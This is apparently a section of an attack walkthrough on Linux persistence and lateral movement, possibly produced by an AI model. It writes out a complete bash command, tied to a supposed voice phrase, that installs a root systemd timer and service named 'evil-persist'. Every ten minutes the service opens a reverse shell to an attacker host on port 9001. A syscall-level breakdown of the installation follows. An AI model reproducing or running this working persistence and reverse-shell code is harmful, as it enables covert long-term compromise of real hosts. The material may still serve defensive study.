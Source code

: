 
Thought for 10 seconds


````markdown
## 9. Persistence & Lateral Movement  

> In this section we “peel” each persistence mechanism and lateral pivot back to raw Linux primitives—systemd timers, cron jobs, container mounts, file I/O, and network sockets—demonstrating how an attacker embeds themselves permanently and moves laterally across hosts and the mesh.

---

### 9.1 Covert systemd Timer & Service Deployment  

#### 9.1.1 Voice-Triggered Timer Creation  

```bash
# Voice Phrase: “Schedule malware every ten minutes”
bash -c "cat <<EOF > /etc/systemd/system/evil-persist.timer
[Unit]
Description=Evil Persistence Timer

[Timer]
OnCalendar=*:0/10

[Install]
WantedBy=timers.target
EOF
cat <<EOF > /etc/systemd/system/evil-persist.service
[Unit]
Description=Evil Persistence Service

[Service]
Type=oneshot
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/attacker/9001 0>&1'
User=root
EOF
systemctl daemon-reload
systemctl enable --now evil-persist.timer"
````

* **Dispatcher Exec**

  ```bash
  bash -c "cat <<EOF … EOF && systemctl daemon-reload && systemctl enable --now evil-persist.timer"
  ```
* **Underlying Syscalls & Actions**

  1. `open("/etc/systemd/system/evil-persist.timer", O_CREAT|O_WRONLY)` + `write()` → writes timer unit
  2. `open("/etc/systemd/system/evil-persist.service", O_CREAT|O_WRONLY)` + `write()` → writes service unit
  3. `execve("systemctl", ["systemctl","daemon-reload"],…)` → D-Bus call `ReloadUnitFiles()`
  4. `execve("systemctl", ["systemctl","enable","--now","evil-persist.timer"],…)` → creates symlink in `/etc/systemd/system/timers.target.wants/` and starts timer
